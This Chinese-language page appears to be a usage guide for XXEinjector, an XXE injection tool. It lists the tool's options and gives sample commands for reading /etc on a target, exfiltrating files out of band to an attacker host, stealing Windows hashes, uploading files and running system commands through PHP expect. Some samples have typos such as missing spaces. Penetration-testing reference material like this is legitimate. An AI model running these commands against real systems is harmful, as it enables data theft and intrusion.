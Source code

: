 ```yaml
---
title: XXEinjector 自动化XXE注射工具
id: zhfly3594
---
```


## XXEinjector 自动化XXE注射工具

https://github.com/ianxtianxt/XXEinjector

> XXEinjector本身提供了非常非常丰富的操作选项，所以大家在利用XXEinjector进行渗透测试之前，请自习了解这些配置选项，以最大限度地发挥XXEinjector的功能。当然了，由于XXEinjector是基于Ruby开发的，所以Ruby运行环境就是必须的了。

```
--host     必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file      必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path           必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute          必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger        记录输出结果。
--rhost          远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport          远程主机的TCP端口信息。(--rport=8080)
--phpfilter    在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc     使用netdoc协议。(Java).
--enumports   枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes       窃取运行当前应用程序用户的Windows哈希。
--expect        使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload       使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt      XSLT注入测试。
--ssl              使用SSL。
--proxy         使用代理。(--proxy=127.0.0.1:8080)
--httpport Set自定义HTTP端口。(--httpport=80)
--ftpport       设置自定义FTP端口。(--ftpport=21)
--gopherport  设置自定义gopher端口。(--gopherport=70)
--jarport       设置自定义文件上传端口。(--jarport=1337)
--xsltport  设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test     该模式可用于测试请求的有效。
--urlencode     URL编码，默认为URI。
--output       爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout     设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout  设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast     跳过枚举询问，有可能出现结果假阳性。
--verbose     显示verbose信息。 
```

## XXEinjector使用样例

枚举HTTPS应用程序中的/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl 
```

使用gopher（OOB方法）枚举/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher 
```

二次漏洞利用：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt 
```

使用HTTP带外方法和netdoc协议对文件进行爆破攻击：

```
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc 
```

通过直接性漏洞利用方式进行资源枚举：

```
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK 
```

枚举未过滤的端口：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all 
```

窃取Windows哈希：

```
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes 
```

使用Java jar上传文件：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf 
```

使用PHP expect执行系统指令：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls 
```

测试XSLT注入：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt 
```

记录请求信息：

```
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt 
```